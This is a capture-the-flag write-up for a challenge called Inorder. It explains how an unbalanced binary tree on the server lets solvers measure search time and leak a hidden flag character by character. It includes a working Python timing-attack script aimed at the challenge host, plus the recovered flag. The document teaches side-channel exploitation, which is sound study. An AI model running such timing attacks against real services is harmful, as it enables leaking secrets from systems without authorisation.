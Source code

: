 # Inorder (misc, 308p, 28 solved)

## Description

```
Our experience with algorithms since high school is quite impressive, and so is our security expertise. However, I wonder if a good hacker can find vulnerabilities in this code which may help to leak the flag without performing a dumb brute force.

Flag format: CTF{message} where:

    message length: 12-20
    message charset: ASCII 33 - 126

PS: We run this with socat.
```

In the task we get a simple [python script](inorder.py)

## Task analysis

The idea is pretty simple:

- We can create a binary tree with our own inputs on the server
- We can add nodes
- We can search for things in the tree
- When we quit the server will perform search for the flag in our tree and then send `Bye!`

## Vulnerability

The trick here is that the tree is not balanced automatically.
We can easily create a very long linear branch by sending identical inputs.

This means that searching in this tree will become slower as the tree grows.
If we create such long branch, and then exit, the server might need to take time to search for the "flag" and we can measure this.

## Solution

### Creating test-case

If we create a tree with 10k nodes `x` and then exit, then there are 2 cases:

- exit is slow, therefore `flag < 'x'`
- exit is quick, therefore `flag >= 'x'`

### Retrieving data

We could try a binary search, but server was not very reliable, so eventually it was better to make a linear search and observer when we started to get `slow` responses instead of `quick` ones, and such transition meant we found right char.

```python
from time import time

from crypto_commons.netcat.netcat_commons import nc, send, receive_until_match, receive_until


def main():
    host = "34.89.211.188"
    port = 31070
    known = ''
    for char in range(33, 127):
        if char != ord(';') and char != ord(' '):
            char = chr(char)
            s = nc(host, port)
            for i in range(4):
                x = receive_until_match(s, "Your option: ")
                payload = "/a " + (';'.join([known + char for _ in range(2047)]))
                send(s, payload)
                x = receive_until(s, "\n")
                x = receive_until_match(s, ".*\\d+")
            start = time()
            send(s, '/exit')
            x = receive_until_match(s, "Bye!")
            stop = time()
            print(char, stop - start)
            s.close()


main()
```

We need to manually set the `known` part after each character run, but it's the only way to be sure.
We can also "verify" by setting `char` we think it is, and also `char+1`.
If for `char` we're starting with `quick` responses and `char+1` starts already with `slow` it means we have the right char.

After a while we finally arrive at: `CTF{W3ll_D0N3!$_^_}`
